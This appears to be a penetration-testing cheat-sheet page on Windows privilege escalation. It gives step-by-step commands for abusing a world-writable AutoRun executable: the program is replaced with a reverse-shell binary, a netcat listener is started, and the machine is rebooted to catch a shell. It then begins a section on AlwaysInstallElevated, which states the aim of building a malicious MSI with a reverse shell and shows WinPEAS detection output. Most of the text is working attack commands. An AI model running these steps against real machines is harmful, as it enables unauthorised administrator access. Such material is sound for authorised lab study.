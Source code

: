 ```
AutoRun Applications
\program.exe
FilePerms: Everyone [AllAccess]
RegPath: HKLM\SOFTWARE\Microsoft\Window\CurrentVersion\Run
```

1. Manually query the registry for anything in that RegPath

```
reg query HKLM\SOFTWARE\Microsoft\Window\CurrentVersion\Run
```

2\. Use accesschk to see if the program.exe WinPEAS said was vulnerable&#x20;

```
.\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
ALL_ACCESS
```

3\. Make a backup of original executable

```
copy "C:\Program Files\Autorun Program\program.exe" C:\Temp
```

4\. Copy the reverse shell executable to overwrite the program.exe

```
copy /Y reverse.exe "C:\Program Files\Autorun Program\program.exe"
```

5\. Start a Netcat listener

```
nc -lnvp 53
```

6\. Restart Windows and once restarted, you will get a shell.

### AlwaysInstallElevated

MSI files are package files used to install applications.

<mark style="color:yellow;">These files run with the permissions of the user attempting to install them.</mark>

<mark style="color:yellow;">Windows allows for these installers to be run with admin privileges.</mark>

<mark style="color:yellow;">If this is the case, we can generate a malicious MSI file that contains a reverse shell.</mark>

How to Detect

WinPEAS

1. Utilize WinPEAS with windowscreds

```
.\winPEASany.exe quiet windowscreds
Checking AlwaysInstallElevated
AlwaysInstallElevated set to 1 in HKLM!
AlwaysInstallElevated set to 1 in HKCU!
```
